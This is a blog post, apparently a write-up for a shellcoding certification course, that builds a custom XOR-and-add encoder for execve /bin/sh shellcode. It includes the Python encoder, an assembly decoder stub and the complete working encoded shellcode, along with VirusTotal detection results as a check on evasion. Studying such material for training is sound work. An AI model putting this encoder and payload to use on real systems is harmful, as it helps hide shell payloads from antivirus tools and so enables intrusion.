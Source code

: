 ```yaml
---
layout: single
title: "SLAE: Shellcode Encoder"
excerpt: "This assignment will see us create and confirm the execution of a custom shellcode encoder."
date: 2020-06-23
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```


_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_4)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and confirm the execution of a custom shellcode encoder. The payload will be a simple execve syscall calling //bin/sh as below:

![execve](/assets/images/SLAE_4/1.JPG)

First we will need to encode the raw shellcode, and then write a decoder in assembly which we will extract and prepend to our encoded shellcode. 

This is known as a "[decoder stub](http://uninformed.org/index.cgi?v=9&a=3&p=4)", it essentially runs prior to the encoded shellcode upon execution, and by the time the payload is reached it is decoded and ready to go.

#### Encoder:
After a lot of trial and error, I opted for 2 very simple techniques spliced together.

First, I modified Vivek's python script to take our shellcode and then xor each byte before incrementing them by 3 as below:

```
#!/usr/bin/python
# XOR all bytes then increase them by 3
# Python Encoder 

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")


encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
	x = x^0xaa
	encoded += '\\x'
	encoded += '%02x' % (x+3) # %02x tells format() to use at least 2 digits in hex

	encoded2 += '0x'
	encoded2 += '%02x,' % (x+3)


print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

We run our script with the shellcode and get out encoded payload:

![execve](/assets/images/SLAE_4/2.JPG)


#### Decoder:

Using the same tricks from previous assignments, I was able to write a simple yet effective decoder.

```
global _start			

section .text
_start:

	jmp short call_shellcode ; jump to call_shellcode, call decoder
decoder:
	pop esi ; (because we jumped, the next address is that of our shellcode)
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov cl, 25 ; set our loop length (equal to that of our generated shellcode)

decode2:
	sub byte [esi], 0x03
	xor byte [esi], 0xaa
	inc esi ; increment esi to run through all bytes
	loop decode2
	jmp short EncodedShellcode ; once complete jump into out decoded payload!



call_shellcode:

	call decoder
	EncodedShellcode: db 0x9e,0x6d,0xfd,0xc5,0x88,0x88,0xdc,0xc5,0xc5,0x88,0xcb,0xc6,0xc7,0x26,0x4c,0xfd,0x26,0x4b,0xfc,0x26,0x4e,0x1d,0xa4,0x6a,0x2d

```

We now pull the shellcode from our compiled decoder, which will altogether yield both the decoder stub and payload

```objdump -d ./insertion-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x14\x5e\x31\xc0\x31\xdb\x31\xc9\xb1\x19\x80\x2e\x03\x80\x36\xaa\x46\xe2\xf7\xeb\x05\xe8\xe7\xff\xff\xff\x9e\x6d\xfd\xc5\x88\x88\xdc\xc5\xc5\x88\xcb\xc6\xc7\x26\x4c\xfd\x26\x4b\xfc\x26\x4e\x1d\xa4\x6a\x2d"
```
The complete shellcode goes in our c program, and we test the decoder stub:

![shellcode_in_c](/assets/images/SLAE_4/3.JPG)

![execution](/assets/images/SLAE_4/4.JPG)

Although I opted to try and keep this as simple as possible, the results from [VirusTotal](https://www.virustotal.com/gui/file/8905dfb42a756e8d155aa696e6d4b39259ffecc6d8075d80885adbc8d9f816d5/detection) were not that bad.

![virus_total](/assets/images/SLAE_4/5.JPG)
